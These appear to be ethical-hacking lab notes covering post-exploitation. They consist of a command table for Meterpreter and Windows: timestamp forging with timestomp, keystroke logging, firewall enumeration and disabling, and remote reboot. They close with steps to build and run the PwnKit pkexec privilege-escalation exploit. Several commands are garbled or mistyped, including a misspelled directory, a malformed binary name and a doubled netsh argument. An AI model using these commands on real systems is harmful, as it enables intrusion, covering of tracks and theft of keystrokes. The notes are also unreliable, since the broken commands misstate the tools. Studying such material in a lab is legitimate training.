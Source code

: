 > Change Modified value
21. timestomp {filename.txt} -m "02/11/2018 08:10:03"
> Similarly use Accessed (-a), Created (-c), Entry Modified(-e) to change value


| Command                                                                                                                           | Work                                                                             |
| --------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| sysinfo                                                                                                                           | Display target machine information such as copmputer name, OS, and domain.       |
| ipconfig                                                                                                                          | Display target machine IP address, MAC address and information.                  |
| pwd                                                                                                                               | Display currrent working directory.                                              |
| timestomp {filename.txt} -v                                                                                                       | Displays Created time, Accessed time, Modified time, Entry Modified time.        |
| timestomp {filename.txt} -m "DD/MM/YYYY HH:MM:SS"<br>> -m  Modified<br>> -a   Accessed<br>> -c   Created<br>> -e   Entry Modified | Changes Modified, Accessed, Created, Entry Modified value of the {filename.txt}. |
| search -f {filename.extention}                                                                                                    | Display the location of the searched file.                                       |
| keyscan_start                                                                                                                     | Start capturing all keyboard input from the target system.                       |
| keyscan_dump                                                                                                                      | Display all captured keystrokes.                                                 |
| idletime                                                                                                                          | Display the amount of time for which the user has been idle.                     |
| C:/\> **dir /a:h**                                                                                                                | retrieve the directory names with hidden attributes.                             |
| C:/> sc queryex type=service state=all                                                                                            | List of all the available services.                                              |
| C:/> netsh firewall show state                                                                                                    | Display current firewall state.                                                  |
| C:/> netsh firewall show config                                                                                                   | Display current firewall settings in the target system.                          |
| C:/> wmic /node:"" product get name,version,vendor                                                                                | Display the details of installed software.                                       |
| C:/> wmic cpu get                                                                                                                 | Retrieve the processor's details.                                                |
| C:/> wmic os where Primary='TRUE' reboot                                                                                          | Reboot the target system.                                                        |
| C:/> net start or stop                                                                                                            | Starts/stops a network service                                                   |
| C:/> netsh advfirewall set currentprofile state off                                                                               | Turn off firewall service for current profile.                                   |
| C:/> netsh advfirewall set allprofiles set allprofiles state off                                                                  | Turn off firewall service for all profiles.                                      |
| findstr /E ".log" > log.txt                                                                                                       | Retrieves all the log files.                                                     |

### Task 3: Escalate Privileges by Exploiting Vulnerability in ***pkexec***
---
**Parrot**
1. Download CVE-2021-4034  - [[Linux]]
2. mv CVE-2021-4034 /tmp/pwnkit
3. cd /tmp
4. cd pwwnkit
5. cd CVE-2021-4034
6. make
7. ./cve-2021--4034
